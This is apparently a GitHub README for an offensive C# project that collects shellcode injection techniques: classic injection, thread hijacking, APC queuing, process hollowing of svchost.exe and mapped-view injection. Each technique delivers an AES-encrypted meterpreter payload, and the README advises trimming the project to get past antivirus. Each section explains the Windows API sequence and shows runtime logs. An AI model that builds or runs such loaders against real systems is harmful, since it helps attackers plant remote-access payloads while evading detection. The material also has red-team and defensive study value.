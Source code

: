 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

## Assembly Injection
You can use a [PowerShell assembly injection technique](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/assembly-injection.ps1) if you want to avoid writing .Net binaries to disk.

## Shellcode Runner
[ShellcodeRunner.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure the shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the page where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Local Thread Hijacking
[LocalThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/LocalThreadHijack.cs) : This technique creates a new local thread in a suspended state, we then hijack the thread, sets the instruction pointer (RIP) to our injected code and then resume the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.LocalThreadHijack
[+] CreateThread() - thread handle: 0x374
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x270800418E0
[+] GetThreadContext() - thread handle: 0x374
[+] RIP is: 0x7FFA79EE2630
[+] SetThreadContext(), RIP assigned: 0x270800418E0
[+] ResumeThread() - thread handle: 0x374
```

## Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls SleepEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx, WaitForMultipleObjectsEx, or WaitForSingleObjectEx) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Notes
Remember you will need to start a process to inject to, except when using the shellcode runner, local thread hijack technique or the process hollowing technique (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner, local thread hijack technique or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
